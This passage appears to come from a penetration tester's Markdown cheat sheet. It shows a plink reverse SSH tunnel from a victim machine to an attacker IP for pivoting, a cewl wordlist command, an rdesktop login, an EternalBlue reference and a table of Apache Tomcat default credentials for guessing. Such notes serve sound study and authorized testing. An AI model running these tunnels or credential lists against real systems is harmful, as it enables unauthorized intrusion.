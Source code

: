     
    * Command:
        ```
        cmd.exe /c echo y | plink.exe -ssh -P <SSH_PORT_ON_ATTACKER> -l [ATTACKER_USER] -pw [ATTACKER_PASSWORD] -R [ATTACKER_IP]:[ATTACKER_PORT]:127.0.0.1:[VICTIM_LOCAL_OPEN_PORT] [ATTACKER_IP]
        ```

        Example:
        ```
        cmd.exe /c echo y | plink.exe -ssh 10.10.14.16 -P 22022 -l attacker_username -pw RandomPassword123 -R 10.10.14.16:1234:127.0.0.1:8888
        ```

    * You will be able to attack from your attacker machine targeting **localhost**.



## General

* Generate a wordlist based on specific page:

    ```
    cewl -d2 -m 5 -w wordlist.txt http://<IP>:<PORT>/php/index.php
    ```

* Login to RDP Windows:

    ```
    rdesktop -g 1440x900 -u <USER> -p <PASSWORD> <IP>
    ```

* Ethernal blue:

    * Manual exploit: **See machine PUBLIC .75**

    * Very useful link: https://redteamzone.com/EternalBlue/


* Apache Tomcat (default passwords):

    |Username     |Password  |
    |-------------|----------|
    |admin        |password  |
    |admin        |<blank>   |
    |admin        |Password1 |
    |admin        |password1 |
    |admin        |admin     |
    |admin        |tomcat    |
    |both         |tomcat    |
    |manager      |manager   |
    |role1        |role1     |
    |role1        |tomcat    |
    |role         |changethis|
    |root         |Password1 |
    |root         |changethis|
    |root         |password  |
    |root         |password1 |
    |root         |r00t      |